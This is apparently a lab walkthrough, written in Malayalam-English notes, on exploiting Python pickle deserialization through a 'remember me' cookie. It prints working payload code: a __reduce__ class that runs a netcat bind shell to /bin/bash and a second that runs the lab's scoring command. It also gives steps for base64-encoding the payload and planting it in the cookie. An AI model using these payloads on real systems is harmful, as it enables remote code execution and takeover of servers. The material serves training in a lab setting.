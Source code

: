 ## Video 3 - exploitation with python3
-->python 2 vech ull exploitation um sir padipikunund.but athinte avisham ila.namuk python3 mathi
-->python3 vech chyumbol namal exploitaion iso video yil kandapole cPickle use chyenda just picke enna mthram koduth import chythal mathi 
-->ini namuk script nokam :
```python
import base64
import os
import pickle 
class Blah(object):
   def __reduce__(self):
       return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print (base64.b64encode(pickle.dumps(Blah(),2)))
```
-->ivide last print chyuna samaya ,2 enn ittath enthanenal python2 ilum ee payload support chyan engandan.so namuk areela python2  aano atho 3 aano applicaiton support chyunathen
-->so ingane namuk kitiya base64 code eduthit namude site ile remember me cookie yil ittit send adikumbol namuk nc connection kitum.but namuk namude lab solve aan chyendath.athin namal ee net cat command angane thane remove chythit namude UUID vechula command kodukanam ennale lab solve aakum ie :
```python
import base64
import os
import pickle 
class Blah(object):
   def __reduce__(self):
       return (os.system,("/usr/local/bin/score 66d1486a-6571-4069-a67b-c4a70a99798d",))
print (base64.b64encode(pickle.dumps(Blah(),2)))
```
-->so ee script terminalil ittit ->python payload_pickle.py ennadikumbol namuk ithinte base64 code kitum.
-->so ith eduth namude lab il poi remember me cookiyil iduka enit session cookie remove chyuka enit cookie save chythit page reload chyuka apol namuk 500 internal server error kitum but namal challenge page il poi page reload chythal lab completed enn kanikum ok
-->so agnane lab compele aayi